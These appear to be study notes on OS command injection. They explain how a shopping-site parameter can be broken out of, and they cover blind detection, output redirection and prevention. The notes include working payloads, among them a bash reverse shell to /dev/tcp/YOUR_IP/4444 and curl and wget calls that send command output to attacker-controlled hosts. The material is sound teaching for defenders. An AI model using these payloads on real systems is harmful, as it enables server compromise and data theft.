 # What is OS Command Injection?
Allows an attacker to execute operating system (OS) commands on the server that is running an application. In a command injection vulnerability, the goal is to break out of the intended command structure and inject your own OS-level commands.
- Often, an attacker can leverage an OS command injection vulnerability to compromise other parts of the hosting infrastructure, and exploit trust relationships to pivot the attack to other systems within the organization.
## Injecting OS Commands
In this example, a shopping application lets the user view whether an item is in stock in a particular store. This information is accessed via a URL:
`https://insecure-website.com/stockStatus?productID=381&storeID=29`

To provide the stock information, the application must query various legacy systems. For historical reasons, the functionality is implemented by calling out to a shell command with the product and store IDs as arguments:
`stockreport.pl 381 29`

This command outputs the stock status for the specified item, which is returned to the user.

The application implements no defenses against OS command injection, so an attacker can submit the following input to execute an arbitrary command:
`& echo aiwefwlguh &`

If this input is submitted in the `productID` parameter, the command executed by the application is:
`stockreport.pl & echo aiwefwlguh & 29`

The `echo` command causes the supplied string to be echoed in the output. This is a useful way to test for some types of OS command injection. The `&` character is a shell command separator. In this example, it causes three separate commands to execute, one after another. The output returned to the user is:
`Error - productID was not provided`
`aiwefwlguh`
`29: command not found`

The three lines of output shows that:
- The original `stockreport.pl` command was executed without its expected arguments, and so returned an error message.
- The injected `echo` command was executed, and the supplied string was echoed in the output.
- The original argument `29` was executed as a command, which caused an error.

Placing the additional command separator `&` after the injected command is useful because it separates the injected command from whatever follows the injection point. This reduces the chance that what follows will prevent the injected command from executing.
## Useful Commands
After you identify an OS command injection vulnerability, it's useful to execute some initial commands to obtain information about the system. Below is a summary of some commands that are useful on Linux and Windows platforms:

|Purpose of command|Linux|Windows|
|---|---|---|
|Name of current user|`whoami`|`whoami`|
|Operating system|`uname -a`|`ver`|
|Network configuration|`ifconfig`|`ipconfig /all`|
|Network connections|`netstat -an`|`netstat -an`|
|Running processes|`ps -ef`|`tasklist`|
## Blind OS Command Injection Vulnerabilities
Many instances of OS command injection are blind vulnerabilities.
- Means that the application does not return the output from the command within its HTTP response.

As an example, imagine a website that lets users submit feedback about the site. The user enters their email address and feedback message. The server-side application then generates an email to a site administrator containing the feedback. To do this, it calls out to the `mail` program with the submitted details:
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`

The output from the `mail` command (if any) is not returned in the application's responses, so using the `echo` payload won't work. In this situation, you can use a variety of other techniques to detect and exploit a vulnerability.
### Detecting Blind OS Command Injection (Time Delays)
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond.

The `ping` command is a good way to do this, because lets you specify the number of ICMP packets to send. This enables you to control the time taken for the command to run:
`& ping -c 10 127.0.0.1 &`

This command causes the application to ping its loopback network adapter for 10 seconds.
### Exploiting Blind OS Command Injection
#### Output Redirection
You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser.

For example, if the application serves static resources from the filesystem location `/var/www/static`, then you can submit the following input:

`& whoami > /var/www/static/whoami.txt &`

The `>` character sends the output from the `whoami` command to the specified file. You can then use the browser to fetch `https://vulnerable-website.com/whoami.txt` to retrieve the file, and view the output from the injected command.
#### Out-of-band Techniques
You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques. For example:

`& nslookup kgji2ohoyw.web-attacker.com &`
- This payload uses the `nslookup` command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected.

Your request could look something like this:
`ProductID=1||wget http://www.webhook.site/your-site||`

If you confirm this is vulnerable, you can connect to reverse shells, or execute commands and send them back to your website:

Reverse Shell:
`ProductID=1||bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'||

Sending Commands:
``ProductID=1||curl http://`whoami`.webhook.site/your-id||``
## Ways of injecting OS commands
You can use a number of shell metacharacters to perform OS command injection attacks.

A number of characters function as command separators, allowing commands to be chained together. The following command separators work on both Windows and Unix-based systems:
- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:
- `;`
- Newline (`0x0a` or `\n`)

On Unix-based systems, you can also use backticks or the dollar character to perform inline execution of an injected command within the original command:
```
`INJECT-COMMAND`
```
Or:
```
$(INJECTED-COMMAND)
```
### Examples
```
1; whoami
1 & whoami & 
1 && whoami 
1 | whoami
1||whoami||
1`whoami` 
1$(whoami)
```
## How to prevent OS command injection attacks
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. In almost all cases, there are different ways to implement the required functionality using safer platform APIs.

If you have to call out to OS commands with user-supplied input, then you must perform strong input validation. Some examples of effective validation include:

- Validating against a whitelist of permitted values.
- Validating that the input is a number.
- Validating that the input contains only alphanumeric characters, no other syntax or whitespace.

Never attempt to sanitize input by escaping shell metacharacters. In practice, this is just too error-prone and vulnerable to being bypassed by a skilled attacker.